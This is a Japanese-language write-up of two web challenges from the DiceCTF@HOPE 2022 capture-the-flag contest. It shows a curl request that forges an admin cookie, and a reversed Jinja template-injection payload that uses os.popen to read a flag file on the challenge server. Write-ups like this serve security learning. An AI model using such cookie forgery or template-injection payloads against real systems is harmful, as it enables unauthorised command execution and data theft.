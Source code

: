 ```yaml
---
title: "DiceCTF@HOPE"
date: 2022-07-25T00:25:30+09:00
tags: ["DiceCTF", "web", "rev", "misc"]
draft: false
---
```


# 問題
## [web]secure-page
以下のところより`admin = true`であればいいことがわかります。

```python
...
    if admin == '':
        headers['set-cookie'] = 'admin=false'

    if admin == 'true':
        return (200, '''
            <title>Secure Page</title>
            <link rel="stylesheet" href="/style.css" />
            <div class="container">
                <h1>Secure Page</h1>
                %s
            </div>
        ''' % os.environ.get('FLAG', 'flag is missing!'), headers)
...
```

Headerに`Cookie: admin=true`を置いてリクエストを叩けばいいです。
```none
curl -H 'Cookie: admin=true' https://secure-page.mc.ax
hope{signatures_signatures_signatures}
```

## [web]reverser
以下のところでテンプレートインジェクションができそうです。
```python
@app.post('/')
def reverse():
...
    output = request.form.get('text', '')[::-1]
    return render_template_string(result % output)
```

outputは逆文字列になることに注意して、書きます。
```python
i = "{{url_for.__globals__.os.popen('cat flag-f5953883-3dae-4a0f-9660-d00b50ff4012.txt').read()}}"
print(i[::-1])
# => }})(daer.)'txt.2104ff05b00d-0669-f0a4-ead3-3883595f-galf tac'(nepop.so.__slabolg__.rof_lru{{
```
FLAG : `hope{cant_misuse_templates}`
